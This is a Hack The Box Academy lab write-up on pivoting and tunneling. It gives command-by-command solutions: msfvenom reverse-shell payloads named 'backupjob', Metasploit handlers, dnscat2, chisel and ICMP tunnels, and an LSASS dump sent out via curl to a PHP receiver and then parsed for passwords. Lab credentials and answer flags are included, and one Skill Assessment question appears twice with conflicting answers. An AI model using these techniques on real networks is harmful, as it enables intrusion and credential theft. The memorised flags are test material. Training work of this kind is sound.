




# HTB-Pivoting_Tunneling_and_Port_Forwarding
## Table of Contents
1. [Choosing The Dig Site & Starting Our Tunnels](#choosing-the-dig-site--starting-our-tunnels)
    1. [Dynamic Port Forwarding with SSH and SOCKS Tunneling](#dynamic-port-forwarding-with-ssh-and-socks-tunneling)
    2. [Remote/Reverse Port Forwarding with SSH](#remotereverse-port-forwarding-with-ssh)
    3. [Meterpreter Tunneling & Port Forwarding](#meterpreter-tunneling--port-forwarding)
2. [Playing Pong with Socat](#playing-pong-with-socat)
    1. [Socat Redirection with a Reverse Shell](#socat-redirection-with-a-reverse-shell)
    2. [Socat Redirection with a Bind Shell](#socat-redirection-with-a-bind-shell)
3. [Pivoting Around Obstacles](#pivoting-around-obstacles)
    1. [SSH for Windows: plink.exe](#ssh-for-windows-plinkexe)
    2. [SSH Pivoting with Sshuttle](#ssh-pivoting-with-sshuttle)
    3. [Web Server Pivoting with Rpivot](#web-server-pivoting-with-rpivot)
    4. [Port Forwarding with Windows Netsh](#port-forwarding-with-windows-netsh)
4. [Branching Out Our Tunnels](#branching-out-our-tunnels)
    1. [DNS Tunneling with Dnscat2](#dns-tunneling-with-dnscat2)
    2. [SOCKS5 Tunneling with Chisel](#socks5-tunneling-with-chisel)
    3. [ICMP Tunneling with SOCKS](#icmp-tunneling-with-socks)
5. [Double Pivots](#double-pivots)
    1. [RDP and SOCKS Tunneling with SocksOverRDP](#rdp-and-socks-tunneling-with-socksoverrdp)
6. [Skill Assesment](#skill-assesment)

## Introduction
### Challenges
1. Reference the Using ifconfig output in the section reading. Which NIC is assigned a public IP address?

    The answer is `eth0`.

2. Reference the Routing Table on Pwnbox output shown in the section reading. If a packet is destined for a host with the IP address of 10.129.10.25, out of which NIC will the packet be forwarded?

    The answer is `tun0`.

3. Reference the Routing Table on Pwnbox output shown in the section reading. If a packet is destined for www.hackthebox.com what is the IP address of the gateway it will be sent to?

    The answer is `178.62.64.1`. It is a default gateaway.

## Choosing The Dig Site & Starting Our Tunnels
### Dynamic Port Forwarding with SSH and SOCKS Tunneling
#### Challenges
1. You have successfully captured credentials to an external facing Web Server. Connect to the target and list the network interfaces. How many network interfaces does the target web server have? (Including the loopback interface)

    First we can ssh by using the credential provided. Then in there, we can type `ifconfig`. The answer is `3`.

2. Apply the concepts taught in this section to pivot to the internal network and use RDP (credentials: victor:pass@123) to take control of the Windows target on 172.16.5.19. Submit the contents of Flag.txt located on the Desktop.

    To solve this, we can use dynamic port forwarding with ssh.

    ```bash
    ssh -D 9050 ubuntu@10.129.175.61
    ```
    Then we can use xfreerdp with proxychains.
    
    ```bash
    proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
    ```
    The answer is `N1c3Piv0t`.

### Remote/Reverse Port Forwarding with SSH
#### Challenges
1. Which IP address assigned to the Ubuntu server Pivot host allows communication with the Windows server target? (Format: x.x.x.x)

    After we ssh with the credential, we can type `ifconfig` and look `ens224` inet result. The answer is `172.16.5.129`.

2. What IP address is used on the attack host to ensure the handler is listening on all IP addresses assigned to the host? (Format: x.x.x.x)

    The answer is `0.0.0.0`. That ip will listen connection from anywhere.

### Meterpreter Tunneling & Port Forwarding
#### Challenges
1. What two IP addresses can be discovered when attempting a ping sweep from the Ubuntu pivot host? (Format: x.x.x.x,x.x.x.x)

    To solve this, we can use `msfvenom` and `msfconsole`. First, we create payload for ubuntu pivot host. It is a reverse shell. So when its executed, we will get a shell session.

    ```bash
    msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.131 -f elf -o backupjob LPORT=8080
    ```
    Then we can use scp to transfer it into out pivot host.

    ```bash
    scp backupjob ubuntu@10.129.175.61:/home/ubuntu/
    ```
    Still in the out attack host, we set listener for our reverse shell by using metasploit.

    ```bash
    [msf](Jobs:0 Agents:0) >> use exploit/multi/handler
    [*] Using configured payload generic/shell_reverse_tcp
    [msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lhost 0.0.0.0
    lhost => 0.0.0.0
    [msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lport 8080
    lport => 8080
    [msf](Jobs:0 Agents:0) exploit(multi/handler) >> set payload linux/x64/meterpreter/reverse_tcp
    payload => linux/x64/meterpreter/reverse_tcp
    [msf](Jobs:0 Agents:0) exploit(multi/handler) >> run
    ```

    Then in the pivot host, we can change file permission and executed it.

    ```bash
    chmod +x backupjob
    ./backupjob
    ```
    If success out listener will catch it and create meterpreter session. In there we can do ping sweep.

    ```bash
    (Meterpreter 1)(/home/ubuntu) > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
    ```
    

    Based on that, we got 2 ip. So the answer is `172.16.5.19,172.16.5.129`.

2. Which of the routes that AutoRoute adds allows 172.16.5.19 to be reachable from the attack host? (Format: x.x.x.x/x.x.x.x)

    To solve this, we can run `autoroute` module.

    ```bash
    (Meterpreter 1)(/home/ubuntu) > run autoroute -s 172.16.5.0/23
    ```

    The answer is `172.16.5.0/255.255.254.0`.

## Playing Pong with Socat
### Socat Redirection with a Reverse Shell
#### Challenges
1. SSH tunneling is required with Socat. True or False?

    It is already mentioned in the module that `Socat is a bidirectional relay tool that can create pipe sockets between 2 independent network channels without needing to use SSH tunneling`. So the answer is `False`.

### Socat Redirection with a Bind Shell
#### Challenges
1. What Meterpreter payload did we use to catch the bind shell session? (Submit the full path as the answer)

    The answer is `windows/x64/meterpreter/bind_tcp`.

## Pivoting Around Obstacles
### SSH for Windows: plink.exe
#### Tools
1. plink 
2. Proxifier

### SSH Pivoting with Sshuttle
#### Tools
1. sshuttle

### Web Server Pivoting with Rpivot
#### Tools
1. rpivot 
#### Challenges
1. From which host will rpivot's server.py need to be run from? The Pivot Host or Attack Host? Submit Pivot Host or Attack Host as the answer.

    The answer is `Attack Host`.

2. From which host will rpivot's client.py need to be run from? The Pivot Host or Attack Host. Submit Pivot Host or Attack Host as the answer.

    The answer is `Pivot Host`.

3. Using the concepts taught in this section, connect to the web server on the internal network. Submit the flag presented on the home page as the answer.

    We can solve this by using `rpivot`. First we run `server.py` from `rpivot` in our attack host.

    ```bash
    python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
    ```
    Then we need to transfer `rpivot` folder to our pivot host.

    ```bash
    scp -r rpivot ubuntu@10.129.81.76:/home/ubuntu/
    ```
    After that, in our pivot host, we can run `client.py` from `rpivot`.

    ```bash
    python2.7 client.py --server-ip 10.10.14.131 --server-port 9999
    ```
    Back to our attack host, we can either using `curl` or `firefox-esr`.

    ```bash
    proxychains curl http://172.16.5.135:80
    proxychains firefox-esr 172.16.5.135:80
    ```
    The answer is `I_L0v3_Pr0xy_Ch@ins`.

### Port Forwarding with Windows Netsh
#### Tools
1. netsh.exe
#### Challenges
1. Using the concepts covered in this section, take control of the DC (172.16.5.19) using xfreerdp by pivoting through the Windows 10 target host. Submit the approved contact's name found inside the "VendorContacts.txt" file located in the "Approved Vendors" folder on Victor's desktop (victor's credentials: victor:pass@123) . (Format: 1 space, not case-sensitive)

    To solve this, first we need to rdp to the target.

    ```bash
    xfreerdp /v:10.129.42.198 /u:htb-student /p:HTB_@cademy_stdnt!
    ```
    Then in the rdp session, we can do pivoting by using `netsh`.

    ```powershell
    netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.42.198 connectport=3389 connectaddress=172.16.5.19
    netsh.exe interface portproxy show v4tov4                 
    ```
    

    Based on that, the pivoting is verified. Then back to our attack host, we can rdp to the internal network target.

    ```bash
    xfreerdp /v:10.129.42.198:8080 /u:victor /p:pass@123
    ```
    Then we can explore to get the answer. The answer is `Jim Flipflop`.

## Branching Out Our Tunnels
### DNS Tunneling with Dnscat2
#### Tools
1. dnscat2
#### Challenges
1. Using the concepts taught in this section, connect to the target and establish a DNS Tunnel that provides a shell session. Submit the contents of C:\Users\htb-student\Documents\flag.txt as the answer.

    To solve this, first we need to make sure we have dnscat2 tools including dnscat2.ps1. In our attack host, we make `parrotshare` folder. It will used to transfer `dnscat2.ps1` from our attack host to target host. Then we do rdp to the target.

    ```bash
    xfreerdp /v:10.129.128.110 /u:htb-student /p:HTB_@cademy_stdnt! /cert:ignore /dynamic-resolution "/drive:parrotshare,/home/user/parrotshare"
    ```
    In our attack host, we set up the listener.It also will prodouced secret.

    ```bash
    sudo ruby dnscat2.rb --dns host=10.10.14.131,port=53,domain=inlanefreight.local --no-cache
    ```
    

    Based on that, the secret is `90fe5698ce55aae945aa407a8cc36da2`. Now we go to target host then executed `dnscat2.ps1` with that secret.
    
    ```powershell
    Start-Dnscat2 -DNSserver 10.10.14.131 -Domain inlanefreight.local -PreSharedSecret 90fe5698ce55aae945aa407a8cc36da2 -Exec cmd
    ```

    

    If its success, our attack host will catch it. Then we can change to shell session by typing `window -i 1`. We can get the flag by using `type`.

    ```powershell
    type C:\Users\htb-student\Documents\flag.txt
    ```
    The answer is `AC@tinth3Tunnel`.

### SOCKS5 Tunneling with Chisel
#### Tools
1. chisel
#### Challenges
1. Using the concepts taught in this section, connect to the target and establish a SOCKS5 Tunnel that can be used to RDP into the domain controller (172.16.5.19, victor:pass@123). Submit the contents of C:\Users\victor\Documents\flag.txt as the answer.

    To solve this, we need `chisel` tools. In here i used `chisel_1.9.1_linux_amd64` version. I also used reverse option to increase success chance because of firewall.

    ```bash
    wget https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_linux_amd64.gz
    ```
    We need to modify `/etc/proxychains.conf`. Here the configuration.

    

    After we copy the file into the pivot host, maybe using scp, we can run chisel server in our attack host.

    ```bash
    sudo ./chisel_1.9.1_linux_amd64 server --reverse -v -p 1234 --socks5
    ```
    Then in our pivot host, we can run chisel client.

    ```bash
    ./chisel_1.9.1_linux_amd64 client -v 10.10.14.131:1234 R:socks
    ```

    

    If its success, our server will catch it. Then we rdp to the target by using `proxychains`.

    ```bash
    proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
    ```
    The answer is `Th3$eTunne1$@rent8oring!`.

### ICMP Tunneling with SOCKS
#### Tools
1. ptunnel-ng
#### Challenges
1. Using the concepts taught thus far, connect to the target and establish an ICMP tunnel. Pivot to the DC (172.16.5.19, victor:pass@123) and submit the contents of C:\Users\victor\Downloads\flag.txt as the answer.

    To solve this, we can use `ptunnel-ng` with static build. We should add `socks4 127.0.0.1 9050` into `/etc/proxychains.conf`. In our pivot host, we can execute `ptunnel-ng` with this command.

    ```bash
    sudo ./ptunnel-ng -r10.129.202.64 -R22
    ```

    Then in our attack host, we can execute `ptunnel-ng` with this command.

    ```bash
    sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22
    ```

    After that, we can enable dynamic port forwarding over ssh.

    ```bash
    ssh -D 9050 -p2222 -lubuntu 127.0.0.1
    ```

    Then we can RDP to the target by using proxychains.
    ```bash
    proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
    ```

    The answer is `N3Tw0rkTunnelV1sion!`.

## Double Pivots
### RDP and SOCKS Tunneling with SocksOverRDP
1. Use the concepts taught in this section to pivot to the Windows server at 172.16.6.155 (jason:WellConnected123!). Submit the contents of Flag.txt on Jason's Desktop.

    To solve this, we can follow every step from this module. Just dont forget to run everyting with administrator previllege.

    

    The answer is `H0pping@roundwithRDP!`.

## Skill Assesment
1. Once on the webserver, enumerate the host for credentials that can be used to start a pivot or tunnel to another host in the network. In what user's directory can you find the credentials? Submit the name of the user as the answer.

    We can explore from the root and check home directory. Then we can find administrator and webadmin directory in there. In the webadmin, we can find id_rsa and for-admin-eyes-only files. So the answer is `webadmin`.

2. Submit the credentials found in the user's home directory. (Format: user:password)

    The for-admin-eyes-only file contain user and password. The answer is `mlefay:Plain Human work!`.

3. Enumerate the internal network and discover another active host. Submit the IP address of that host as the answer.

    To solve this, we can do ping sweeping by using `msfvenom` and `msfconsole`. First, we set up the payload.

    ```bash
    msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.131 -f elf -o backupjob LPORT=8080
    ```
    Then transfer `backupjob`, we can use python to do file transfer.
    
    ```bash
    python3 -m http.server 8000
    ```
    After that, we can set up `msfconsole`.

    ```bash
    [msf](Jobs:0 Agents:0) >> use exploit/multi/handler
    [*] Using configured payload generic/shell_reverse_tcp
    [msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lhost 0.0.0.0
    lhost => 0.0.0.0
    [msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lport 8080
    lport => 8080
    [msf](Jobs:0 Agents:0) exploit(multi/handler) >> set payload linux/x64/meterpreter/reverse_tcp
    payload => linux/x64/meterpreter/reverse_tcp
    [msf](Jobs:0 Agents:0) exploit(multi/handler) >> run
    ```
    In the target shell, we can use `wget` to get the `backupjob`. After that use `chmod +x` and execute it. Our listener will catch the connection and we will get meterpreter session. In there, we can use `ping_sweep` module.

    ```bash
    (Meterpreter 1)(/tmp) > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
    ```
    

    The answer is `172.16.5.35`.

4. In previous pentests against Inlanefreight, we have seen that they have a bad habit of utilizing accounts with services in a way that exposes the users credentials and the network as a whole. What user is vulnerable?

    In here, i prefer to stop `server/socks_proxy` session and use `portfwd add -l 3389 -p 3389 -r 172.16.5.35` on the meterpreter session.

    ```bash
    [msf](Jobs:1 Agents:1) auxiliary(scanner/portscan/tcp) >> jobs

    Jobs
    ====

    Id  Name                           Payload  Payload opts
    --  ----                           -------  ------------
    0   Auxiliary: server/socks_proxy

    [msf](Jobs:1 Agents:1) auxiliary(scanner/portscan/tcp) >> stop 0
    [-] Unknown command: stop. Run the help command for more details.
    [msf](Jobs:1 Agents:1) auxiliary(scanner/portscan/tcp) >> kill 0
    [*] Stopping the following job(s): 0
    [*] Stopping job 0
    [*] Stopping the SOCKS proxy server
    [msf](Jobs:0 Agents:1) auxiliary(scanner/portscan/tcp) >> sessions -i 1
    [*] Starting interaction with 1...

    (Meterpreter 1)(/tmp) > portfwd add -l 3389 -p 3389 -r 172.16.5.35
    [*] Forward TCP relay created: (local) :3389 -> (remote) 172.16.5.35:3389
    (Meterpreter 1)(/tmp) > bg
    [*] Backgrounding session 1...
    [msf](Jobs:0 Agents:1) auxiliary(scanner/portscan/tcp) >> 
    ```
    Then we can rdp to our attack machine.

    ```bash
    xfreerdp /v:127.0.0.1 /u:mlefay /p:'Plain Human work!'
    ```
    The answer is `S1ngl3-Piv07-3@sy-Day`.

4. In previous pentests against Inlanefreight, we have seen that they have a bad habit of utilizing accounts with services in a way that exposes the users credentials and the network as a whole. What user is vulnerable?

    To do this, we need to transer `lsass.dmp` from windows target to the our attack host. We can use php to do file transfer. In our pivot host, we can set this php script.

    ```bash
    echo '<?php $f = fopen("lsass.dmp", "w"); fwrite($f, file_get_contents("php://input")); fclose($f); ?>' > /tmp/up.php
    php -S 0.0.0.0:9090
    ```

    Then we can upload it using curl from powershell administrator previllege.

    ```powershell
    curl.exe --data-binary "@C:\Users\mlefay\Desktop\lsass.dmp" -X POST http://172.16.5.15:9090/up.php
    ```
    To check file integrty, we can use md5sum. After that, we can transfer `lsass.dmp` from pivot host to our attack host.

    ```bash
    (Meterpreter 1)(/tmp) > download /tmp/lsass.dmp /home/htb-ac-1395791/lsass.dmp
    ```

    To exctract `lsass.dmp`, we can use `pypykatz lsa minidump /home/htb-ac-1395791/lsass.dmp` tools.

    

    We can see  user `vfrank` password in there, `Imply wet Unmasked!`. So the answer is `vfrank`. 

5. For your next hop enumerate the networks and then utilize a common remote access solution to pivot. Submit the C:\Flag.txt located on the workstation.

    If we check `ipconfig` in the rdp session, we will notice its a multi homed. It shows that it has connection to `172.16.6.*`. So we do ping sweeping again.

    ```powershell
    1..254 | % {"172.16.6.$($_): $(Test-Connection -count 1 -comp 172.16.6.$($_) -quiet)"}
    ```
    

    We found 3 IP. We can rdp to the 172.16.6.25 with vfrank credential. Then go to c folder. In there we can find the flag. The answer is `N3tw0rk-H0pp1ng-f0R-FuN`. 

6. Submit the contents of C:\Flag.txt located on the Domain Controller.

    Still in the vfrank rdp session. We can check domain control admin. In there we can find the flag. The answer is `3nd-0xf-Th3-R@inbow!`.